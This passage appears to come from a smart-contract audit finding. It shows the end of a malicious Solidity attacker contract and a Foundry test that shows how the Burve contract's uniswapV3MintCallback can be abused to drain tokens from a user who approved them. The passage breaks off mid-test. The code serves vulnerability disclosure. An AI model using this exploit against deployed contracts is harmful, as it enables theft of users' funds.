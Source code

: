 ```solidity
        );

        // Transfer tokens to the caller
        if (amount0 > 0) {
            IERC20(pool.token0()).transfer(msg.sender, amount0);
        }
        if (amount1 > 0) {
            IERC20(pool.token1()).transfer(msg.sender, amount1);
        }
    }
}
```
Add this test in Burve.t.sol in BurveTest contract
```solidity
    /// @notice Test to demonstrate the vulnerability in uniswapV3MintCallback
    /// An attacker can drain tokens from any user who has approved tokens to the Burve contract
    function test_UniswapV3MintCallback_Exploit() public forkOnly {
        address victim = makeAddr("victim");
        address attacker = makeAddr("attacker");

        // Get current tick for position boundaries
        (, int24 currentTick, , , , , ) = pool.slot0();
        int24 tickSpacing = pool.tickSpacing();
        int24 tickLower = currentTick - (tickSpacing * 10);
        int24 tickUpper = currentTick + (tickSpacing * 10);

        // Amount of tokens needed for the position
        uint128 liquidityAmount = 100000; // A reasonable liquidity amount
        (uint256 amount0Needed, uint256 amount1Needed) = getAmountsForLiquidity(
            liquidityAmount,
            tickLower,
            tickUpper,
            true
        );

        // Add some buffer to avoid precision issues
        amount0Needed = (amount0Needed * 11) / 10; // Add 10% buffer
        amount1Needed = (amount1Needed * 11) / 10; // Add 10% buffer

        // Give victim tokens and have them approve the Burve contract
        deal(address(token0), victim, amount0Needed);
        deal(address(token1), victim, amount1Needed);

        vm.startPrank(victim);
        token0.approve(address(burveV3), amount0Needed);
        token1.approve(address(burveV3), amount1Needed);
        vm.stopPrank();

        // Deploy the malicious contract
        MaliciousAttacker maliciousContract = new MaliciousAttacker(
            victim,
            address(pool)
        );

        // Execute attack
        vm.startPrank(attacker);
        uint128 providedLiquidity = maliciousContract.attack(
            tickLower,
            tickUpper,
            liquidityAmount
        );
        vm.stopPrank();

```